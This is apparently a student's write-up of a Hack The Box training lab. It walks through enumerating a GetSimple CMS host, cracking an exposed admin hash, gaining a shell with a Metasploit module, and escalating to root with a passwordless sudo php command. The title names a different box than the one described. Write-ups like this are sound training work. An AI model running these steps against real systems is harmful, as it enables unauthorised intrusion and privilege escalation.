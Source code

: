 # Nibbles - Knowledge Check
This is the first box in the the CPTS path where there is not a guided walkthrough to assist us. 

## Report

**Date:** 2025-08-19  
**Author:** Arathorna
**Objective:** Gain a foothold of the system and escalate privileges

---

## 🖥️ Reconnaissance

### Nmap Scan
bash
nmap --open -sV -oA HTB <target_ip>

<img width="635" height="233" alt="HTBLAB-nmap" src="https://github.com/user-attachments/assets/655b75a3-7951-4d08-ac1f-995fb1e6ec8c" />
Findings: 
22/tcp → OpenSSH 8.2p1 (Ubuntu Linux)
80/tcp → Apache httpd 2.4.41 (Ubuntu)
Host is Ubuntu with a http web server running on port 80.

## 🌐 Web Enumeration

### whatweb
whatweb <target_ip>
Findings: Web app is running HTTP Server Apache v2.4.41, GetSimple CMS detected 

### gobuster
gobuster dir -u http://<target_ip -w /usr/share/wordlists/dirb/common.txt

<img width="640" height="387" alt="HTBLAB-gobuster" src="https://github.com/user-attachments/assets/2353bb13-052a-49f5-8cc0-e2fb1d6f7d29" />

Findings: /admin → (admin login page), /data/users/admin.xml → Username: admin, hashed password, email: admin@gettingstarted.com

<img width="954" height="356" alt="HTBLAB-credentials" src="https://github.com/user-attachments/assets/70c4f2a9-e55d-4543-bad5-dc023057ef38" />

### 🔑 Credential Discovery
Cracked password hash with johntheripper → Admin Password: admin
Logged into /admin panel successfully.

<img width="664" height="422" alt="HTBLAB-john" src="https://github.com/user-attachments/assets/320fc758-d1dd-45bb-8ea1-f0a3c537e6f4" />


### 💥 Exploitation
GetSimple v3.3.15 vulnerability found in metasploit

<img width="611" height="66" alt="HTBLAB-GetSimple" src="https://github.com/user-attachments/assets/4ecee1d4-d39f-41e5-8224-0de185c8eee3" />


<img width="663" height="323" alt="HTBLAB-metasploit" src="https://github.com/user-attachments/assets/76e9b161-98d5-4794-906c-b90fce636f6c" />

<img width="555" height="486" alt="HTBLAB-exploit_options" src="https://github.com/user-attachments/assets/dc2c02c2-3d83-4334-b851-273fb096a4c7" />


Exploit completed successfully and spawned a shell

<img width="630" height="128" alt="HTBLAB-exploit" src="https://github.com/user-attachments/assets/dcab40ce-4746-4a66-bcd7-f6ff5a3a599e" />

Upgrade to Linux shell with "shell" then python script: python3 -c 'import pty; pty.spawn("/bin/bash")'


## 🚀 Privilege Escalation

Sudo -l gives us the following output: User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

We can run php sudo commands without password.

Privilege escalation via GTFObins:

sudo php -r "system('/bin/sh');"

<img width="668" height="105" alt="HTBLAB-root" src="https://github.com/user-attachments/assets/0a94d5bb-d3fa-4511-86db-ee0991bc41c7" />


Gained a root shell. 





